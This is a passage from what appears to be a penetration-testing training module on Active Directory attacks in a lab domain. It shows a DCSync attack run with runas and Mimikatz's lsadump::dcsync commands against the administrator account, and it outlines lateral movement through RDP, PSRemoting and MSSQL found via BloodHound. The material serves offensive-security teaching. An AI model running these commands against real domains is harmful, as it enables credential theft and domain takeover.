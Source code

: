 ## Mimikatz

We can perform the attack with Mimikatz as well. Using Mimikatz, we must target a specific user. Here we will target the built-in administrator account. We could also target the `krbtgt` account and use this to create a `Golden Ticket` for persistence, but that is outside the scope of this module.

Also it is important to note that Mimikatz must be ran in the context of the user who has DCSync privileges. We can utilize `runas.exe` to accomplish this:

Using runas.exe

```shell
runas /netonly /user:INLANEFREIGHT\adunn powershell
```

```powershell
PS C:\htb> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```

# Privileged Access

Typically, if we take over an account with local admin rights over a host, or set of hosts, we can perform a `Pass-the-Hash` attack to authenticate via the SMB protocol.

`But what if we don't yet have local admin rights on any hosts in the domain?`

There are several other ways we can move around a Windows domain:

- `Remote Desktop Protocol` (`RDP`) - is a remote access/management protocol that gives us GUI access to a target host
- [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.2) - also referred to as PSRemoting or Windows Remote Management (WinRM) access, is a remote access protocol that allows us to run commands or enter an interactive command-line session on a remote host using PowerShell
- `MSSQL Server` - an account with sysadmin privileges on an SQL Server instance can log into the instance remotely and execute queries against the database. This access can be used to run operating system commands in the context of the SQL Server service account through various methods

We can enumerate this access in various ways. The easiest, once again, is via BloodHound, as the following edges exist to show us what types of remote access privileges a given user has:

- [CanRDP](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canrdp)
- [CanPSRemote](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canpsremote)
- [SQLAdmin](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#sqladmin)
